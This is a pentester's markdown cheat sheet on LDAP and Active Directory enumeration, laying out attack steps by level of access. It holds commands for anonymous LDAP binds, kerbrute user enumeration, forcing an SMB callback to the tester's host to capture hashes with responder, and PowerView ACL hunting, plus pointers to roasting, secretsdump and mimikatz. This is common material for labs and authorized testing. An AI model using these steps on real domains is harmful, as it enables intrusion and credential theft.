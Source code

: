 # ldap - Enumeration

## When we dont have anything

## Do simple enum of services (RPC,SMB)

Use enum4linux-ng

   https://github.com/Andre92Marcos/tools/tree/master/enum4linux-ng


## Try to do an ldap anonymous bind

   ldapsearch -x -b "dc=example,dc=com"


### Use ldapdomaindump

https://github.com/Andre92Marcos/tools/tree/master/ldapDomainDump

### Use netexec

https://github.com/Andre92Marcos/tools/blob/master/netexec/README.md#ldap

## When we have access to target's network

Start responder to try to do some poisoning

   https://github.com/Andre92Marcos/tools/tree/master/responder

## If we have usernames and want to check if they are domain usernames

Enumerate users found to see if they pre authenticate to kerberos

   kerbrute userenum --dc <ip_to_domain_controller> -d <full_domain_name> <filename_with_usernames>


## When we have a domain username, no password, no shell

If we can make the target make a smb request back to us

   For example using sqlinjection, we can use responder to get hash and try to crack it
   https://github.com/Andre92Marcos/tools/tree/master/responder

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


Run impacket-GetNPUsers

   https://github.com/Andre92Marcos/tools/blob/master/impacket/getNPUsers.md

Run impacket-GetUsersSPNsA

   https://github.com/Andre92Marcos/tools/blob/master/impacket/getUserSPNs.md



## When we have a domain username, but no password, but we have a shell

Do a gci request to get the user hash (and use it in other protocols, and try to crack it), with responder running

   gci \\<mylocalhostip>\share\file #share and file dont have to exist

Use the snaffler tool

   https://github.com/Andre92Marcos/tools/tree/master/snaffler

Use bloodhound

   https://github.com/Andre92Marcos/tools/tree/master/bloodhound


If our user have some special permissions run secretdump

   https://github.com/Andre92Marcos/tools/blob/master/impacket/secretdump.md




If we are not finding anythin with bloodhound

   Load powesploit PowerView.ps1 from:

      https://github.com/PowerShellMafia/PowerSploit/tree/dev

   And then run 

      Find-InterestingDomainAcl -ResolveGUIDS | ConvertTo-Json

   This might find relations that bloodhound missed

## When have a local Admin or domain Admin

Use mimikatz tool. (Also if we have user with SeDebugPrivilege)

   https://github.com/Andre92Marcos/tools/tree/master/mimikatz


## Other Tips

### Sync time with kerberos

To figure out the difference in time with the kerberos server:

   sudo ntpdate 10.129.127.130

To simulate the difference in time when executing a command:

   faketime -f '+7h' <command>